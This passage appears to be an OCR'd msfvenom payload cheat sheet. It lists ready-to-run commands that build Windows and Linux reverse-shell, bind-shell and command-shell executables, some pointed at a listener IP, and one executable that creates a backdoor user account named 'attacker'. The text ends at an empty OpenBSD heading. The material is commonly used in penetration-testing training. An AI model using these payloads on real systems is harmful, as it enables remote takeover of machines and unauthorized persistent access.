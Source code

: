 list payloads

```
msfvenom --list payloads
```

### Windows Paylaods

#### Reverse Shell :

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```
#### Bind Shell:
```
msfvenom -p windows/meterpreter/bind_tcp RHOST= (IP Address) LPORT=(Your Port) -f exe > bind.exe
```
#### Create User:
```
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```
#### CMD shell:
```
msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
```
### Linux Payloads

#### Reverse Shell:
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf >reverse.elf

msfvenom --platform linux --arch x86 -f elf --encoder generic/none --payload linux/x86/shell_reverse_tcp LHOST=10.11.0.39 LPORT=605 > lin-unix86-term-genbind-605.elf

msfvenom --platform linux --arch x64 -f elf --encoder generic/none --payload linux/x64/shell_reverse_tcp LHOST=10.11.0.39 LPORT=606 > lin-unix64-term-genbind-606.elf
```

#### Bind Shell:
```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
```
#### Generic Shell:
```
msfpayload generic/shell_bind_tcp ARCH=x86 PLATFORM=linux C

msfvenom -p generic/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > term.elf
```
### openbsd payloads

#### bsd linux elf:

